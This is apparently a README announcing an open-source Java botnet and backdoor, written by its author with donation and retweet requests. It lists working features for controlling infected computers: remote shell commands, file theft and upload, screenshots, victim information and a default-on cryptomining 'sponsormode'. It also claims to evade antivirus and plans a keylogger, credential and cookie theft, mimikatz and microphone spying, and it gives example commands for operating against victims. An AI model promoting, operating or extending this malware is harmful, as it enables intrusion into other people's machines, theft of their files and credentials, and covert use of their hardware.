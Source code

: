 It is ofical the botnet is open source :D

here is a list of all the options:

it supports a 1000 users, shell acces to the infected computer, information giving about the infected computer like ( external ip, hostname, operating system and administrator or not when your on windows ), keepalive check, screenshot, downloaden and uploaden.

things that are partitional completed are: selfdestruct the virus.

the backdoor isn't seen by any viruscaner ( checked on date 11/3/2017 ).
the botnet is written in java with netbeans.

things that i didn't add are Ddos or randsomeware.

options that i am working on are: vnc, webcam snapshot, a keylogger, Persistence backdoor, network scan likely with nmap, passwords and cookie grap ( also skype ), video on full screen that cant be closed, mimikatz, Distributed hash cracking, microfone spying, popup for credentials, script mining.

there is a option thats enabled is sponsormode that will if enabled mine for the creator but it can easly be dissabled by going in the server and change the varible sponsormode from true to false.

this are the wworking options:
list info : that will give you a detailed list of all the computers in the botnet and thee hostname, external ip, operating system, adn if on windows if it had administrator rights.
msgbox : this will give a msgbox on the targets computer.
download : here can you download a file from the infected computer to the server ( full path is needed )
upload : send a file to the computers tmp using a url.
shell : here can you type cmd commands to the computer ( the shell closes automatic when the command is completed ).
screenshot : here can you make a screenshot of the defauld screen from the infecteed computer ( will be sended to the servers)
javaversion : request version of java from infected computer.
exit : closes connection.

by thee options msgbox, download, upload, shell, screenshot, javaversion and exit you have to give the hostname and external ip to send to someone here some examples you can find the hostname and external ip easy with list info : 
minepc@1.2.3.4 shell dir C:\
minepc@1.2.3.4 msgbox hello
minepc@1.2.3.4 download C:\Users\mh123hack\Downloads\botnet-herder.jpg
minepc@1.2.3.4 upload http://thestartupmag.com/wp-content/uploads/2016/10/hacked.png
minepc@1.2.3.4 screenshot
minepc@1.2.3.4 javaversion
minepc@1.2.3.4 exit
list info

the victum is also the client open the victum with netbeans to control the botnet!

the botnet is supported for windows, linux, and maby mac but i havend tested this.
the standard port for the precompiled server ( botnet-server.jar ) is 4600 but you can change this in the source code.

i hope you like my botnet :D

dear regards.
mh123hack
litecoin: LaLRA68RC6EdUdFFxtbkgzvmTSKRyFZndk

I want to thank ( O shit waddup ) from hackflag for making a video tutorial for the botnet.
https://hackflag.org/forum/member.php?action=profile&uid=5209

if you want your hacker name here donate or make the botnet famous.
retweet: https://twitter.com/martinhermens1/status/839979932541415424
if you retweet this than your name will be placed down here.

DONATORS:


SHARES:

@TrollForums
